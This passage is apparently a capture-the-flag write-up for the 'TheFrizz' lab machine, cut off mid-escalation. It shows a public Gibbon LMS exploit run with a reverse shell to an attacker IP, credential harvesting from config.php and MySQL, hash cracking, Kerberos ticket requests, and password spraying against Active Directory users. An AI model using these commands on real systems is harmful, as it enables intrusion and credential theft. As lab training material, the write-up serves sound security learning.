### Summary:

Web vulnerability leading to Windows Active Directory (AD) exploitation on "Group Policy Objecs" see [the hacker recipes here](https://www.thehacker.recipes/ad/movement/group-policies).
\#### Main takeaways:
AD domain names are important to get right
Synchronize with AD clocks
Living off the land for ex filtration
Reverse powershell
\#### Tools:
Bloodhound CE (how to install on Kali here)
rusthound\[Rusthound-install\]
sharpGPOabuse and SharpTools: (executables for AD exploits [here](https://github.com/Flangvik/SharpCollection) )
[netexec](https://www.netexec.wiki/) (for password try'n out)
\#### Mitigations:
Administrate your AD policies well
Do not allow execution of unknown files
Log and block reverse shells
\# Enumeration
nmap scan


there is a webserver on 80, ssh on 22, ldap and some rpc and a AD domain frizz.htb0 (the 0 is the `\x00`{=tex} line end, disregard)

adding
`frizz.htb`
and
`dcfrizz.frizz.htb`
to /etc/hosts in that order (domain name needs to come first in the dns order AD is picky)
\## TCP port 80
Checking the web page

It goes to a redirect on a url:
http://frizzdc.frizz.htb/home/

The http://thefrizz.htb/home directs to a page for Walkerville Elematary School, where there is a "staff login" button



admin admin didn't work ...

The text: \`## Welcome

\*NOTICE\*\* Due to unplanned Pentesting by students, WES is migrating applications and tools to stronger security protocols. During this transition, Ms. Fiona Frizzle will be migrating Gibbon to utilize our Azure Active Directory SSO. Please note this might take 48 hours where your accounts will not be available. Please bear with us, and thank you for your patience. Anything that can not utilize Azure AD will use the strongest available protocols such as Kerberos.\`

Is probably a hint...

`HTTP/1.1 302 Found Date: Fri, 13 Jun 2025 10:37:03 GMT Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12 X-Frame-Options: SAMEORIGIN Location: /Gibbon-LMS/index.php?loginReturn=fail1 Pragma: no-cache Cache-Control: max-age=0, no-cache, no-store, must-revalidate Expires: Thu, 1 Jan 1970 00:00:00 GMT Content-Length: 0 Keep-Alive: timeout=5, max=100 Connection: Keep-Alive Content-Type: text/html; charset=UTF-8`
\#### Apache/2.4.58

has some memory and SSRF - looking at SSRF

#### .PHP 8.2.12

<figure>

<figcaption
aria-hidden="true">Pastedimage20250828142120.png</figcaption>
</figure>

### Gibbon-LMS

Mentioned on the web page has CVEs:

https://nvd.nist.gov/vuln/detail/CVE-2023-45878
File upload giving RCE

https://nvd.nist.gov/vuln/detail/CVE-2024-24725
Injection of malformed post request, giving insecure deserializing of php

CVE-2023-45878 has publicized exploits
https://github.com/davidzzo23/CVE-2023-45878/tree/main#

## Conclusions, Web

Infrastructure: Minor vulnerabilities on Apache and .php
The "Gibbon LMS" has known vulnerabilities

# Initial Foothold

running the CVE-2023-45878 exploit
https://github.com/davidzzo23/CVE-2023-45878/tree/main#

(copy exploit repo and execute in python)

    python3 CVE-2023-45878.py -t frizz.htb -s -i 10.10.14.7 -p 4444 

Gives a PowerShell with a w.webservice user on the target via netcat:


<figure>

<figcaption
aria-hidden="true">Pastedimage20250614092445.png</figcaption>
</figure>

looong list of dirs and files on the root of the php app ....
\# Look around and find out:

robots.txt looks interesting, but nothing ..

    PS C:\xampp\htdocs\Gibbon-LMS> cat robots.txt
    User-agent: *
    Allow: /index.php
    Allow: /$
    Disallow: /
    PS C:\xampp\htdocs\Gibbon-LMS> 

Threw the ls output into chatGPT, came up with 2 interesting finds (and a lot of other stuff.. https://chatgpt.com/share/68b12b0b-6c74-8008-a2aa-09d478e7f949)

From a defensive point of view, it noticed som possible hacking activity:
\### 1 Red flags in your listing (possible compromise)

- **Two tiny, newly-dated PHP files in the webroot:** `ciqwmoic.php` and `hfkdzoes.php` (34 bytes each, dated **Aug 29, 2025 04:13**). Randomly named, tiny PHP files in webroots are a hallmark of **web shells or test droppers**. Treat as compromised until proven otherwise.

- **Recent activity in `uploads/`** (Oct 29, 2024) aligns with the typical attack path (upload → execute) if the folder allows PHP execution.

### 2 That credentials can be found in config.php

config.php - holds some usercredentials and a guid

``` /**
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';

/**
 * Sets a globally unique id, to allow multiple installs on a single server.
 */
$guid = '7y59n5xz-uym-ei9p-7mmq-83vifmtyey2';

/**
 * Sets system-wide caching factor, used to balance performance and freshness.
 * Value represents number of page loads between cache refresh.
 * Must be positive integer. 1 means no caching.
 */
$caching = 10;
PS C:\xampp\htdocs\Gibbon-LMS> 
```

We now have"

    MrGibbonsDB
    MisterGibbs!Parrot!?1

I says 'DB' so it looks like access credentials for a database, there were no external endpoints on the box for mmsql etc in the nmap scan, so it must be hosted on the box localhost (it also says localhost in the config.php..)

# Living off the land Pt1

MySQL, find the executable in `\bin `{=tex}and execute..

Use the mysql.exe to look around the database:

    PS C:\xampp\mysql\bin> .\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"

<figure>

<figcaption
aria-hidden="true">Pastedimage20250823080924.png</figcaption>
</figure>

Looking at the gibbon db using the credentials retried above
.`\mysql`{=tex}.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" gibbon

- There is a lot:

<!-- -->

    PS C:\xampp\mysql\bin> .\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" gibbon
    Tables_in_gibbon
    gibbonaction
    gibbonactivity
    gibbonactivityattendance
    gibbonactivityslot
    gibbonactivitystaff
    gibbonactivitystudent
    gibbonactivitytype
    etc it goes on.....

Trew the table list at ChatGPT, recommended looking at the 'gibbonperson'
https://chatgpt.com/share/68b12e07-8c98-8008-b24f-c553f9ab3363

Start digging for credentials in the 'gibbonperson' table

    .\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E

Gives a lot of empty, but also a Ms Gibbon entry:

`* FROM gibbonperson;" -E *************************** 1. row ***************************            gibbonPersonID: 0000000001                     title: Ms.                   surname: Frizzle                 firstName: Fiona             preferredName: Fiona              officialName: Fiona Frizzle          nameInCharacters:                     gender: Unspecified                  username: f.frizzle            passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03        passwordStrongSalt: /aACFhikmNopqrRTVz2489        passwordForceReset: N                    status: Full                  canLogin: Y       gibbonRoleIDPrimary: 001           gibbonRoleIDAll: 001                       dob: NULL                     email: f.frizzle@frizz.htb            emailAlternate: NULL                 image_240: NULL             lastIPAddress: ::1             lastTimestamp: 2024-10-29 09:28:59         lastFailIPAddress: NULL         lastFailTimestamp: NULL                 failCount: 0`

we now have f.frizzle and a hashed PW -  
\### Enter: John the ripper and rockyou.txt

``` ──(kali㉿kali)-[~/desktop/thefrizz]
└─$ john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt ffrizzle.txt
 
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=sha256($s.$p) [256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Jenni_Luvs_Magic23 (f.frizzle)     
1g 0:00:00:02 DONE (2025-08-23 11:58) 0.3460g/s 3813Kp/s 3813Kc/s 3813KC/s Jesus14jrj..Jeepers93
Use the "--show --format=dynamic=sha256($s.$p)" options to display all of the cracked passwords reliably
Session completed. 
```

Gives credentials:

    f.frizzle
    Jenni_Luvs_Magic23   

# Trying ssh:

it failed - seemingly too easy

`No more authentication methods to try. Permission denied (gssapi-with-mic,keyboard-interactive)`

chatGPT possible answer:
- SSH **never prompted for a password**.
- Most likely reasons:

1.  **The user `f.frizzle` doesn't exist**, or the password is wrong.
2.  The SSH server **requires public key authentication**.
3.  The Windows OpenSSH server may **restrict users or auth methods** (like only allowing key-based login).

# Trying something windows'y

Ask Kerberos for a ticket using the credentials and use that for ssh

### Enter Impacket:

#### Notes

- **Syncronize time** (it gives a something skewed error) and getTGT (Ticket Granting Ticket)
- Make sure **domain names are correct** and matching in the /etc/hosts file

<!-- -->

    sudo ntpdate frizz.htb
    impacket-getTGT frizz.htb/'f.frizzle':'Jenni_Luvs_Magic23' -dc-ip frizz.htb

When it works (some tries may be required) it looks like this

Export the cache to path for use with ssh or nxc:

    export KRB5CCNAME=f.frizzle.ccache

check what tickets are stored:
`klist -f`


## SSH Foothold

login through the domain controller using ssh and the Ticket (-K), the frizz.htb and frizzdc.frizz.htb ned to in that order in /etc/hosts
again sync the clocks..

    sudo ntpdate frizz.htb
    ssh -K f.frizzle@frizzdc.frizz.htb -v

Keep trying (i complains about clock skew a lot..)

## User flag on the Desktop


`f5646aff72a0d70bdcbe00906c406d62`

# Privilege Escalation

No Access to other users with f.frizzle...

## Enumerate the AD

#### Enter Bloodhound CE

Remove legacy Bloodhound and install Bloodhound-CE on Kali

rusthound for quick data retrieval over the f.frizzle SSH connection (how to install here <a href="Rusthound-install" class="wikilink">Rusthound-install</a>)

Gather data

    rusthound-ce -d frizz.htb -u f.frizzle -p Jenni_Luvs_Magic23 -z

Investigating the f.frizzle user ...

Member of various user groups, but no outbound rights on anything

## Enumerate file access

for the f.frizzle user nothing interesting shows up on that users files.
Looking for Temp and Recycle Bin, listing the contents of C: including hidden items:

    Get-ChildItem -Hidden C:\

ChatGPT has some suggestions https://chatgpt.com/share/68b1d5a7-bf9c-8008-b291-10dd3a3dd9ac, hereunder looking at the \$recycle bin

### Mess around and find out:

<figure>

<figcaption
aria-hidden="true">Pastedimage20250826094149.png</figcaption>
</figure>

# Living off the land Pt2

I could not immediately unzip and explore the .7z files on the windows box (7zip not installed), however we previously had accesss to the web user on the box.

#### Serving the loot and extracting

1)  Copy the files to a place of common ground for the web and f.frizzle users: 'c:`\programdata`{=tex}'
2)  Copy the file from the common ground as the web user and it is now served to anyone via the web interface


Download the loot


Unzip and explore...
credentials found in wapt/conf/waptserver.ini:
`IXN1QmNpZ0BNZWhUZWQhUgo=`

\## Password for 'something' found
base 64 decrypt gives:
`!suBcig@MehTed!R`

# PW Spraying

## Obtain list of users

We have the whole domain enumerated using bloodhound, the userdata are present in the '\_users.json' file:

#### Enter 'jq' tool

for terminal .json handling


enumerate the users using:
`cat bloodhound/*_users.json | jq .data[].Properties.samaccountname -r > frizzusers.txt`

spray the users/password to see if something matches using netexec

    sudo ntpdate frizz.htb
    nxc smb -k frizzdc.frizz.htb -u frizzusers.txt -p '!suBcig@MehTed!R' --continue-on-success

Auth errors, however the M.SchoolBus is different and gives a timer skew error (even with ntpdate sync just before..)


Tried ssh - didnt work

# Foothold

## Same procedure as before

Synchronize time and get TGT:

    sudo ntpdate frizz.htb
    impacket-getTGT frizz.htb/'M.SchoolBus':'!suBcig@MehTed!R' -dc-ip frizz.htb

These need to be run at the same time otherwise we get at Clock error

Export the cache:

    export KRB5CCNAME=M.SchoolBus.ccache

and ssh in again (clock needs constant sync....)

    sudo ntpdate frizz.htb
    ssh -K M.SchoolBus@frizzdc.frizz.htb -v

And we're in:

Access to administrator - that would be too easy...

## Enumerate M.SchoolBus

Mark as owned in bloodhound and see what the M.Schoolbus user can do:
